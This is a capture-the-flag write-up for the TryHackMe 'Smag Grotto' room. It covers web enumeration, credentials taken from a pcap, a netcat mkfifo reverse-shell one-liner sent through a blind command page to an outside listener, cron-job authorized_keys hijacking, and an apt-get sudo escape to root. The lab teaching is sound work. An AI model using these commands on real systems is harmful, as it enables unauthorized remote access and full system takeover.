





# Write-Up: Smag Grotto

This write-up will walk you through the thought process behind solving the challenge and the decisions made along the way.

## Basic Information

- CTF: [TryHackMe](https://tryhackme.com/room/smaggrotto)
- Difficulty: Easy

## Description

Follow the yellow brick road.

Deploy the machine and get root privileges.

## Approach

### Enumeration

The only entry point for this challenge is the IP address. Let's add it to the `/etc/hosts` file to access it during the challenge. 

```bash
10.112.180.251 smaggrotto.thm 
```

To get the first information about the challenge machine, we start with a `nmap` scan, which also checks for versions `-sV` and basic further info via scripts `-sC`.

```bash
nmap -sC -sV smaggrotto.thm

Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-08 16:41 -0400
Nmap scan report for smaggrotto.thm (10.113.179.27)
Host is up (0.016s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  SSH     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Smag
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see ports for SSH and a web server open. Let's further enumerate the webserver and search for existing paths. For this, we start a basic `dirsearch` scan.

```bash
dirsearch -u smaggrotto.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
(_||| _) (/_(_|| (_| ) 

Extensions: readme.md | HTTP method: GET | Threads: 25 | Wordlist size: 87649

Target: http://smaggrotto.thm/

[17:01:37] Starting:                                                                                                
[17:01:38] 301 -  315B  - /mail  ->  http://smaggrotto.thm/mail/            
                                                                             
Task Completed
```

We find a new path `/mail`. Now, let's take a look at the website and the found path. 

### Web Analysis

The website itself serves a welcome message.


On the `/mail` path, we find an email conversation with an attached `.pcap` file, which we download with `wget`.



### Packet Analysis

The file stores captured network traffic. To analyse it, we use `wireshark`.
1. Open the `.pcap` file via `File -> Open`



2. Search the packets for interesting content. We see a request to a login page. Let's take a closer look at this one.
3. The form data is sent in clear text and we find login credentials: **helpdesk:cH4nG3M3_n0w**

Since the website has no `/login.php` endpoint, we need something else, where we can use the credentials. The first thought was to use them on the SSH port, but this did not work.

Let's take a look again at the `.pcap` to see, if we missed something besides the credentials. We find a subdomain, where the request went to.



To access it, we add it to our previous entry in the `/etc/hosts` file. This file maps host names to IP addresses.

```bash
10.112.180.251 smaggrotto.thm development.smag.thm
```

### Back to Web Analysis

Now, we should be able to access the subdomain in the browser. We find another basic webserver with an `admin` and `login` page. 



We can use the found credential on the login page. A command window opens, but does not return anything when we type commands.



Maybe the commands are executed on the server, but just the result is not shown on the screen. We can try to spawn a reverse shell via this command line to gain access to the server. 

### Initial Access

We can take a reverse shell from [revshells](https://www.revshells.com/). First, set up a listener on our machine with `netcat`. 

```bash
nc -lvnp 1337
```

Then spawn a shell connection to the listener. The first try with the `Bash -i` variant did not work for me. But the `nc mkfifo` did the trick, when send as command on the website:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.170.203 1337 >/tmp/f
```

After the shell is spawned in our terminal we stabilize it to work better with it. After the stabilization steps, we can use things like autocomplete, which do not work out of the box. we perform the following steps to stabilize the shell.
- Wait for incoming shell
- Spawn interactive shell with `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- Move reverse shell to background with `CTRL + Z`
- Fix terminal behaviour to correctly pass inputs and avoid duplicate output with `stty raw -echo; fg` and bring back background reverse shell
- Set TERM correctly `export TERM=xterm`

```bash
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [192.168.170.203] from (UNKNOWN) [10.113.191.215] 51250
sh: 0: can't access tty; job control turned off
# Stabilize it:
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@smag:/var/www/development.smag.thm$ ls 
ls
admin.php  login.php  materialize.min.css
www-data@smag:/var/www/development.smag.thm$ ^Z   
zsh: suspended  nc -lvnp 1337
                                                                                                                    
┌──(kali㉿kali)-[~/CTF-Playground/TryHackMe/SmagGrotto]
└─$ stty raw -echo; fg                            
[1]  + continued  nc -lvnp 1337
                               ls 
admin.php  login.php  materialize.min.css
www-data@smag:/var/www/development.smag.thm$ 
```

We see that we are connected as `www-data`. After basic enumeration steps we find another user `jake` whose folder contains a `user.txt`, probably the flag. But our user has no permission for the file. 

### Privilege Escalation to jake

With no further infos, we try running [linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) on the machine to get a hint were to go from here. The tool searches for possible privilege escalation paths.

Linpeas finds a cron job, which copies the content of a file into the authorized SSH keys for the user jake.

```bash
*  *    * * *   root    /bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```

We are able to modify the `jake_id_rsa.pub.backup`. We can now insert our own SSH key into this file, which is then copied to the authorized keys and we can login to jake without a password. 

Your public SSH key is found under `~/.ssh/id_rsa.pub` or something similar.

Now, login to the user jake via SSH and read out the `user.txt` and grab our first flag!

```bash
SSH jake@smaggrotto.thm    
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openSSH.com/pq.html
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Fri Jun  5 10:15:15 2020
jake@smag:~$ cat user.txt 
<redacted user flag>
```

### Privilege Escalation to root

First thing to check for the privilege escalation to root are the commands which we are allowed to run with `sudo`:

```bash
jake@smag:~$ sudo -l                                                                                                
Matching Defaults entries for jake on smag:                                                                         
    env_reset, mail_badpass,                                                                                        
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                        
                                                                                                                    
User jake may run the following commands on smag:                                                                   
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```

We can run `apt-get` as root without a password. Let's check [GTFOBins](https://gtfobins.org/) for a way to become root. It hints us, we can get a root shell with:

```bash
apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

That worked! Now, we just have to find and read the root flag. This is usually under `/root/root.txt`, which was also the case here and we find the root flag!

```bash
jake@smag:~$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh                                               
# whoami                        
root     
# cd /root      
# ls
root.txt
# cat root.txt
<redacted root flag>
```

## Takeaway

Small pieces of information across different sources can combine into a full attack path. By extracting credentials from a pcap, discovering hidden subdomains, and abusing writable files in cron jobs, we can escalate privileges step by step. Misconfigured `sudo` permissions then provide an easy path to root.

